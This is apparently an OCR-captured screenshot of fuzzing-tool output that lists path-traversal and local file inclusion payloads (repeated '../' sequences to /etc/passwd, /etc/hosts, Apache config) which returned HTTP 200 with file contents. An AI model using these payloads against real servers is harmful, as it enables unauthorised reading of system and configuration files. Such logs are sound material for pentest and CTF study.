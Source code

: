 ```bash
000000130:   200        4 L      16 W       118 Ch      "/etc/fstab"                                                                                                                                        
000000124:   200        9 L      37 W       502 Ch      "/etc/apt/sources.list"                                                                                                                             
000000116:   200        230 L    1125 W     7305 Ch     "/etc/apache2/apache2.conf"                                                                                                                         
000000201:   200        10 L     26 W       255 Ch      "../../../../../../../../../../../../etc/hosts"                                                                                                     
000000200:   200        10 L     26 W       255 Ch      "/etc/hosts"                                                                                                                                        
000000241:   200        10 L     51 W       367 Ch      "/etc/motd"                                                                                                                                         
000000232:   200        5 L      15 W       108 Ch      "/etc/issue"                                                                                                                                        
000000231:   200        358 L    1060 W     8262 Ch     "/etc/init.d/apache2"                                                                                                                               
000000267:   200        22 L     34 W       1007 Ch     "../../../../../../../../etc/passwd"                                                                                                                
000000268:   200        22 L     34 W       1007 Ch     "../../../../../../../etc/passwd"                                                                                                                   
000000266:   200        22 L     34 W       1007 Ch     "../../../../../../../../../etc/passwd"                                                                                                             
000000269:   200        22 L     34 W       1007 Ch     "../../../../../../etc/passwd"                                                                                                                      
000000245:   200        23 L     71 W       575 Ch      "/etc/nsswitch.conf"                                                                                                                        
000000259:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                                                                               
000000264:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../etc/passwd"                                                                                               
000000265:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../etc/passwd"                                                                                                  
000000257:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"  
000000264:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../etc/passwd"                                                                                                       
000000265:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../etc/passwd"                                                                                                          
000000257:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                                                                                  
000000260:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../../../etc/passwd"                                                                                           
000000262:   200        22 L     34 W       1007 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                                                 
```